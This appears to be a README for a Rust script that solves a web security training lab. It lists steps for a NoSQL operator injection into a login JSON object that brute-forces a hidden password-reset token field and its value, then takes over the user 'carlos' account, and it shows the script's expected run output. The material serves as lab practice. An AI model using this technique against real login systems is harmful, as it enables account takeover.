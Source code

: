 # Hack Steps

1. Fetch the forgot-password page
2. Extract the csrf token and session cookie
3. Make a forgot-password request for carlos
4. Inject an operator and payload into the login JSON object to determine the length of the unknown field name
5. Modify the payload to brute force the field name
6. Modify the payload to determine the length of the field value
7. Modify the payload to brute force the field value
8. Fetch the forgot-password page with the field name and its value as a query pararmeter
9. Extract the csrf token and session cookie
10. Make a reset password request for carlos
11. Login as carlos with the new password
12. Fetch the carlos profile

# Run Script

1. Change the URL of the lab
2. Start script

```
~$ cargo run
```

# Expected Output

```
⟪#⟫ Injection point: login JSON object
⦗1⦘ Fetching the forgot-password page.. OK
⦗2⦘ Extracting the csrf token and session cookie.. OK
⦗3⦘ Sending a reset password request for carlos.. OK
⦗4⦘ Checking if field number 3 length =  5
⦗4⦘ Checking if field number 3 length =  7
                            ...............
⦗4⦘ Checking if field number 3 length =  13 [ Correct length: 13 ]
⦗5⦘ Checking if the char of field 3 at position 4  =  n [ Correct name: reset ]
⦗5⦘ Checking if the char of field 3 at position 9  =  n [ Correct name: resetPwdTo ]
                            ...............
⦗5⦘ Checking if the char of field 3 at position 12  =  n [ Correct name: resetPwdToken ]
⦗6⦘ Checking if the field resetPwdToken length =  7
⦗6⦘ Checking if the field resetPwdToken length =  10
                            ...............
⦗6⦘ Checking if the field resetPwdToken length =  16 [ Correct length: 16 ]
⦗7⦘ Checking if the char of resetPwdToken at position 6  =  3 [ Correct value: c82305f ]
⦗7⦘ Checking if the char of resetPwdToken at position 10  =  3 [ Correct value: c82305f8cb2 ]
                            ...............
⦗7⦘ Checking if the char of resetPwdToken at position 15  =  3 [ Correct value: c82305f8cb271ed3 ]
⦗8⦘ Fetching the forgot-password page with the field name and its value as a query pararmter.. OK
⦗9⦘ Extracting the csrf token and session cookie.. OK
⦗10⦘ Reseting carlos password to hacked.. OK
⦗11⦘ Logging in as the carlos.. OK
⦗12⦘ Fetching the carlos profile.. OK
🗹 Check your browser, it should be marked now as solved
```

